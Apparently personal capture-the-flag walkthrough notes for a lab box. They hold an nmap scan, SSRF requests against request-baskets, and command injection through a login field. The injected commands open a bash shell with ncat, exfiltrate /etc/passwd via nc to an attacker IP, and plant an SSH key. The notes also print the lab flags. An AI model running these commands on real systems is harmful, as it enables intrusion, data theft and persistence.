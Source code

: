 
sudo nmap -v -p22,80,55555 -sV -sC 10.10.11.224

```
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown


PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 09 Jul 2023 09:42:18 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 09 Jul 2023 09:41:51 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 09 Jul 2023 09:41:51 GMT
|_    Content-Length: 0
```

Website is located at http://10.10.11.224:55555/web
At the bottom: Powered by [request-baskets](https://github.com/darklynx/request-baskets) | Version: 1.2.1

GitHub diff from 1.2.1 to 1.2.2
https://github.com/darklynx/request-baskets/compare/v1.2.1...v1.2.2

```
version: "3"

services:
  postgresql:
    image: postgres
    ports:
      - "5432:5432"
    environment:
      POSTGRES_USER: rbaskets
      POSTGRES_PASSWORD: pwd
      POSTGRES_DB: baskets

  mysql:
    image: mysql
    ports:
      - "3306:3306"
    environment:
      MYSQL_DATABASE: baskets
      MYSQL_USER: rbaskets
      MYSQL_PASSWORD: pwd
      MYSQL_RANDOM_ROOT_PASSWORD: "yes"
```


## request-baskets SSRF
https://notes.sjtu.edu.cn/s/MUUhEymt7#

```
POST /baskets/passw3 HTTP/1.1
Host: 10.10.11.224:55555
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 125

{"forward_url": "http://10.10.16.23:80/b","proxy_response":false,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

Use **ncat** !!

`ncat -lvnp 80 -e /bin/bash`

True SSRF check of 80:

```
POST /baskets/i1 HTTP/1.1
Host: 10.10.11.224:55555
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 119

{"forward_url": "http://127.0.0.1:80/","proxy_response":true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

then /i1/index.html or /login:
https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

This opens port but I cannot access it:

```
curl 'http://10.10.11.224:55555/i1/login' -d 'username=;`nc -lvnp 8330`'
```

Ping check:
```
 curl 'http://10.10.11.224:55555/i1/login' -d 'username=;`ping 10.10.16.32 -c 1`'
```

File check:
```
curl 'http://10.10.11.224:55555/i1/login' -d 'username=;`cat /etc/passwd | nc 10.10.16.32 8330`'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
puma:x:1001:1001::/home/puma:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

cat /home/puma/user.txt:
958ee3a9496eec202a6049b0272341d8

copy my ssh key from python http server:

```
curl 'http://10.10.11.224:55555/i1/login' -d 'username=;`curl http://10.10.16.32:8000/sau_rsa.pub >> /home/puma/.ssh/authorized_keys`'
```


## Root flag:

sudo -l

sudo /usr/bin/systemctl status trail.service

https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7

b2e6a8ecd454529882ac6d686b7215e1